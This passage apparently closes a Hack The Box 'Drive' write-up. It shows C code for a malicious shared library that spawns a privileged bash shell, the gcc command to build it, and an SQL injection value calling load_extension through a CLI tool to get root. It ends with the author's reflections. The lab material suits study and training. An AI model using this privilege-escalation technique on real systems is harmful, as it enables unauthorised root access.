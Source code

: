 > **[Using GCC for Compilation](https://docs.openeuler.org/en/docs/22.03_LTS/docs/ApplicationDev/using-gcc-for-compilation.html)**: You can use the **-shared** and **-fPIC** options to create a **dynamic link library** (**DLL**) with the source file, assembly file, or target file. The **-fPIC** option is used in the compilation phase. This option is used when the target file is generated, so as to generate **location-independent code**.

```bash
nano old.c
cat !$
```

> **old.c**

```c
#include <stdlib.h>

void sqlite3_load_extension(){
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
}
```

```
gcc -fPIC -shared old.c -o old
mv old o

/home/tom/doodleGrive-cli
  /> moriarty
  /> ...
  /> 5
  /> "+load_extension(char(46,47,111))+"        # :)

whoami                # :(
echo $PATH
export PATH=....
whoami                # :)
```

<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_088.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_089.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_090.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_091.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_092.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> It is the first **Writeup** of a **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** Hard box, I am already improving a little more and more the different phases that make up the engagement of a box. The acquired knowledge is invaluable for me, although the investment of time is great the **reward is even more**, but I must be grateful that every time the times are shortening and becoming more efficient each task I perform. I just have to kill the box from my account and continue with the next machine that I will surely also get a good profit.

<br /><br />
<img src="{{ site.img_path }}/drive_writeup/Drive_093.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
